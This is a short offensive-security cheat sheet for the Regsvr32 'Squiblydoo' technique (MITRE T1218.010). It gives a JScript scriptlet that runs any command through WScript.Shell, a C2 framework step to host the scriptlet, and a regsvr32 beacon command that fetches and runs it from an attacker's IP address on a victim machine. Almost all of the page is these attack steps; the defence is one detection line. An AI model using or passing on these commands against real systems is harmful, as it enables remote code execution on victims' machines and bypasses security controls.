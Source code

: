 # [Regsvr32](https://attack.mitre.org/techniques/T1218/010/)

## Exploit syntax:
1. Create a file and save this to /tmp/mrNimbus.txt. Save the command you wish to run on the victim machine in the \<COMMAND HERE> line in the script. 
```
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("<COMMAND HERE>"); 
    ]]>
</script>
</registration>
</scriptlet>
```
2. In posh run:
    ```
    add-hosted-file

    /tmp/mrNimbus.txt

    /controls/police

    text/html

    N
    ```

 3. In your beacon, run this with your malicious IP
  ```
  regsvr32.exe /s /i:http://<IP ADDRESS>/controls/police scrobj.dll
  ```



## Detection Technique:
* Monitor regsvr32.exe for malicious code execution.

## Resource
* https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo